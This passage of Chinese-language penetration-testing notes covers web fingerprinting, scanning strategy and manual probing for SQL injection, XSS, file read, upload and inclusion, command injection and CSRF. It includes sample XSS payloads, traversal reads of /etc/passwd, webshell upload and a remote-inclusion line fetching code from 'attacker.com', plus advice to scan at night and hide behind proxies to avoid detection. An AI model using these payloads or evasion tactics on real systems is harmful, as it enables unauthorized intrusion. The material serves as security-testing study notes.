 *   **4.3 指纹识别 (Fingerprinting)**
    *   **目的**: 识别目标网站使用的 CMS、框架、Web 服务器、操作系统、编程语言、第三方组件及其版本。
    *   **方法**:
        *   **在线平台**: 云悉指纹, 潮汐指纹, 360 观星指纹.
        *   **工具**: WhatWeb,御剑 Web 指纹识别, Test404 CMS 指纹识别, TideFinger 脚本, Wafw00f (有时也附带指纹信息).
        *   **浏览器插件**: Wappalyzer, BuiltWith.
        *   **特征分析**:
            *   特定目录/文件: `wp-admin/`, `/admin/`, `dede/`, `robots.txt`, `favicon.ico`.
            *   `favicon.ico` MD5 值查询。
            *   页面源代码注释、`generator` 标签、特定 JS/CSS 文件名或路径。
            *   HTTP 响应头 (`Server`, `X-Powered-By`, Cookie 名称如 `JSESSIONID`, `PHPSESSID`).
            *   报错信息。

*   **4.4 端口/服务/系统分析 (Port/Service/System Analysis)**
    *   **目的**: 结合 Nmap 等工具扫描结果，分析开放端口对应的服务、版本，判断潜在的可利用漏洞或弱点。确认操作系统类型和版本。

#### 5. 漏洞探测 (Vulnerability Probing)
*   **概述**: 基于信息收集和分析的结果，有针对性地对目标进行漏洞扫描和手动探测。

*   **5.1 扫描策略 (Scanning Strategy)**
    *   **时间选择**: 选择业务低峰期（如深夜）进行扫描，减少对目标业务的影响，降低被发现概率。
    *   **速率控制**: 根据目标应急响应能力（是否封禁 IP）调整扫描速率。可先用少量线程试探。
    *   **代理使用**: 使用代理 IP 池隐藏真实 IP，规避 IP 封禁。
    *   **区分扫描类型**: Web 漏洞扫描针对 Web 应用（域名/URL），主机漏洞扫描针对 IP 地址（操作系统、服务）。

*   **5.2 自动化扫描 (Automated Scanning)**
    *   **Web 漏洞扫描器**: AWVS, Nessus (Web Scan), AppScan, Burp Suite Pro Scanner, XRay, Goby 等。对收集到的域名和 URL 进行批量扫描。
    *   **主机漏洞扫描器**: Nessus, OpenVAS, Qualys Guard. 对收集到的 IP 地址进行系统和服务的漏洞扫描。

*   **5.3 手工探测 (Manual Probing)**
    *   **概述**: 针对特定功能点、输入点或基于指纹信息的已知漏洞进行深入的手动测试。
    *   **常见漏洞类型与测试点**:
        *   **SQL 注入 (SQL Injection)**:
            *   输入点: URL 参数、POST 数据、HTTP 头 (Cookie, User-Agent, Referer, X-Forwarded-For), 搜索框、登录框等。
            *   测试: 使用单引号、注释符、延时函数、布尔盲注、报错注入等 Payload。注意 WAF 绕过技巧。
        *   **跨站脚本 (XSS)**:
            *   输入点: 搜索框、留言板、用户资料、URL 参数、富文本编辑器。
            *   测试: 输入 `<script>alert(1)</script>`, `"><img src=x onerror=alert(1)>`, HTML 实体编码, 事件处理器等。查看源码确认输入是否被正确过滤/编码。关注 DOM XSS (URL hash, JS 变量)。
            *   万能 Payload 示例 (需根据上下文调整): `"><textarea autofocus onfocus=alert(1)></textarea>`, `javascript:alert(1)` (URL Scheme)。
        *   **文件下载漏洞 (Arbitrary File Download/Read)**:
            *   URL 特征: `download.php?file=`, `readfile.php?path=`, `down.jsp?filename=`.
            *   参数名: `file`, `path`, `filename`, `Data`, `src`, `Inputfile`, `filepath`, `url` 等。
            *   测试: 使用目录遍历 (`../`), 空字节 (`%00`), 绝对路径尝试读取敏感文件 (`/etc/passwd`, `C:/Windows/win.ini`, 配置文件)。
        *   **文件上传漏洞 (File Upload Vulnerability)**:
            *   测试点: 头像上传、附件上传、编辑器图片上传、文件导入等。
            *   测试: 尝试上传 Webshell (PHP, ASP, JSP)，绕过后缀名、Content-Type、文件头检测。利用解析漏洞 (IIS, Apache, Nginx)。(详见 Webshell 获取笔记)。
        *   **文件包含漏洞 (File Inclusion - LFI/RFI)**:
            *   URL 特征: `?page=a.php`, `?file=content.txt`, `?module=news`.
            *   测试: 尝试包含本地文件 (`/etc/passwd`, 日志文件, Session 文件, 上传的 txt/图片马) 或远程文件 (`http://attacker.com/shell.txt` - 需要 `allow_url_include=On`)。利用 `php://filter`, `php://input`, `data://` 等伪协议。
        *   **命令执行漏洞 (Command Injection / RCE)**:
            *   测试点: 提供 ping, nslookup, 系统诊断等功能的页面；参数直接或间接传递给 `system()`, `exec()`, `passthru()`, `shell_exec()` 等函数的地方。
            *   测试: 使用管道符 `|`, 分号 `;`, 反引号 `` ` ``, `$(command)` 注入系统命令。
        *   **跨站请求伪造 (CSRF)**:
            *   测试点: 修改密码、修改个人信息、发帖、转账、添加用户、删除数据等敏感操作。
            *   检测:
                1.  抓取正常请求包。
                2.  检查是否存在 Token 或验证码等防 CSRF 机制。若有，尝试移除或重用 Token 看是否有效。
                3.  移除 `Referer` 和 `Origin` 请求头，重放请求看是否成功。
                4.  若无有效防护，构造 PoC HTML 页面，在另一个已登录用户身份的浏览器中打开，看操作是否被执行。
            *   结合 XSS: 利用 XSS 获取 Token 或自动提交 CSRF 表单。